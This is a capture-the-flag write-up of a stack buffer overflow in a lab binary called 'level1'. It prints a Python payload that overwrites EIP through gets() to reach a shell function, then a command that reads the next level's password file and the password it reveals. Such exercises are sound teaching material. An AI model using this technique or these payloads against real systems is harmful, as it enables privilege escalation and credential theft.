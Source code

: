 <p align="justify"> 

Level1 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

Level1 rights:
```Shell
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

When testing, we notice that it only waits for user input and exits.
Decompiling with Ghidra on https://dogbolt.org/ shows two things:
- `gets()` is used with a buffer of 76 bytes
- there is an unused `run()` function that opens a shell

The goal is therefore to find a way to access the `run()` function. `gets()` major vulnerability is not checking
the size of input with the size of the buffer. If you exceed its size, you will overwrite data that can affect the flow of 
execution. There is a specific register in each function (`EIP`, for Instruction Pointer) that stores the address
of the next instruction: we must find where it is and overwrite it with the address of `run()`.

First, let's find `run()`'s address with GDB:
```Shell
(gdb) info function
[...]
0x08048444  run
[...]
```

We know that `EIP` sits right after the end of our buffer.
Using python we craft a payload that will:
- fill the buffer
- overwrite `EIP` with `run()`'s address
The address must be written in what is conventionnally known as Little Endian because our VM system is using that.
```Shell
python -c "print('A' * 76 + '\x44\x84\x04\x08')" > /tmp/payload1
```

However, launching `run()` and opening a shell is not enough. Using a pipe to send our payload instead of writing it manually
has some consequences:
- the shell inside `run()` becomes non-interactive
- it doesn't wait for user input because it encountered EOF and exits almost immediately.
It makes it impossible to write our commands and retrieve the password.
We can bypass that by adding `-` after the first `cat` command to keep stdin open, thus preventing the shell from exiting.
```Shell
cat /tmp/payload1 - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
</p>
